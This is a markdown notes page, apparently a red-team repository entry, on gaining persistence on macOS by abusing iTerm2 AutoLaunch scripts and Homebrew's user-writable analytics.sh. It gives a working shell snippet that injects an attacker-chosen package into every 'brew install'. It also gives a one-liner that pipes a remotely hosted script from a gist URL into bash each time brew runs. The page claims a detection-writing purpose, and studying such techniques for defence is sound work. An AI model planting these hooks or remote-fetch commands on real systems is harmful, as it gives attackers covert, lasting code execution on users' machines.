 # macOS Persistence
A collection of notes on various techniques and procedures to aid in maintaining persistent access to an asset.

## iTerm2
iTerm2 is one of the most commonly installed third party applications in macOS environments, especially so among the developer and IT community. As such here are some techinques I've discovered that leverage the popularity of iTerm2 to our advantage.

### Autolaunching Scripts
There are two directories which iTerm2 checks for `AutoLaunch` scripts during execution. These AutoLaunch scripts are intended to allow users to automate a number of start-up tasks via iTerm2's AppleScript Scripting Definition. While this is the intention, iTerm2 will blindly execute whatever code is in the `Autolaunch.scpt` file regardless of whether or not the code bothers to interact with iTerm2.

Autolaunch.scpt locations:

- `~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt` 
	- This location is checked first and may not exist on your system
	- Go ahead and create the `~/Library/Application Support/iTerm2/Scripts/` directory if it doesn't already exist.
	- If this directory doesn't exist the next path is checked as a legacy fallback.
- `~/Library/Application Support/iTerm/Scripts/AutoLaunch.scpt`
	- !! DEPRECATION NOTICE !! This path is only being checked due to legacy reasons and should be considered deprecated. If you rely on this path to always be an option it may eventually come back to bite you.

## Homebrew

Another third-party tool that's such a common mainstay of macOS workstations, `homebrew` boasts an impressive user base that is not limited strictly to developers or sysadmins.

### Analytics

By default, `homebrew` is set to phone home to Google Analytics over HTTPS and provide a number of known, documented, metadata strings claimed by the Homebrew team to help maintainers and as such "leaving it on is appreciated".  
The more paranoid-inclined user seeking to cut down on the data they freely hand over to Google and other analytic companies may already know to disable analytics right after installing homebrew and before going off and installing packages. Unfortunately, as will be shown homebrew analytics can be far more dangerous than it would appear.

Check out https://github.com/Homebrew/brew/blob/master/docs/Analytics.md to read more about the information gathered by Homebrew Analytics and how to disable this feature or just run `brew analytics off` to disable Homebrew Analytics if `brew analytics` does not return "Analytics is disabled."

#### Analytricks

Reading through `/usr/local/Homebrew/Library/Homebrew/brew.sh` reveals an interesting opportunity for a number of possible scenarios for attacks but a basic example of persistence will be provided here to keep with the context of this file.

```
# Don't need shellcheck to follow this `source`.
# shellcheck disable=SC1090
source "$HOMEBREW_LIBRARY/Homebrew/utils/analytics.sh"
setup-analytics
```
> From `/usr/local/Homebrew/Library/Homebrew/brew.sh`

First and foremost the `$HOMEBREW_LIBRARY/Homebrew/utils/analytics.sh` file (full, expanded path `/usr/local/Homebrew/Library/Homebrew/utils/analytics.sh`) is sourced blindly without attempting to ensure the file even exists and then proceeds to run the newly exported `setup-analytics` function donated by analytics.sh. This means that even when Homebrew Analytics has been explicitly disabled on a system it is not until after all code within `analytics.sh` is run that Homebrew checks whether or not analytics should be sent.

It's simple to see how easily the user-owned, user-writeable `analytics.sh` file can be abused by simply adding commands to the end of the `analytics.sh` file or within the  setup-analytics` function, hell you're free to write your own bash script altogether and including an empty setup-analytics function to keep from causing an error. This all happens pretty early on in the logic for subcommands of the `brew` command; shortly after determining the subcommand and well before processing package names and subcommand options are slurped in for processing. This makes it possible to pass a malicious package name during a `brew install` command as well as ensure `brew list`, `brew uninstall`, etc. ignore your maliciously installed package when listing or uninstalling packages.

Let's explore some of these attacks and their implementation.

**Hijacking `brew install`**

Add the following tiny modification at the bottom of the `analytics.sh` file

```
# Prepend a defined package to all invocations of `brew install`
if [[ "$HOMEBREW_COMMAND" = "install" ]]
then
  set "YOUR_DESIRED_PACKAGE_HERE" "$@"
fi
```

Nice and easy. As the `analytics.sh` file is sourced into `brew.sh` we are lucky enough to have access to the `$HOMEBREW_COMMAND` variable which holds the subcommand sent to the `brew` command as well as `$@` which contains the arguments passed to the subcommand.  
Presumably the possibly most esoteric bit of code here for beginner BASH scripters is the line starting with `set`.  
The `set` command allows rearranging the order of the arguments passed on the commandline and in this example simply prepends whichever package you choose  to the list of arguments the user provided which ensures our desired package is installed first and can hopefully get lost in the wall of text generated during a `brew install`.

This same concept can be applied to run any commands you want, you are not limited to simply brew commands. For example if you'd just like to have a compromised host send a request to a server wehenever `brew` is run as a way of gaining access to the network in case of being forcefully ejected from the network or just because networks are hard a simple script could be written which sends a GET request to a remotely hosted file and executing any commands within that file.

```
bash <(curl -s https://gist.githubusercontent.com/n0ncetonic/1d965369574a413b4dd1e4514e27992a/raw/675a9546c6ecdb46ce5a6b13a7faf63428359e53/example.sh)
```

Adding this simple one-liner into `analytics.sh` will cause the contents of the remote file to be run whenever `brew` is run.

### Conclusion

These PoCs are intended to be used as demos in aiding teams attempting to write detections around TTPs which could be leveraged by threat actors to avoid triggering common persistence detection checks . The potential for far more complex payloads which take advantage of this Technique are the responsibility of the reader to create.  
If you do happen to come up with something fun that takes advantage of this simple `brew` command hijack please let me know via twitter @n0ncetonic 

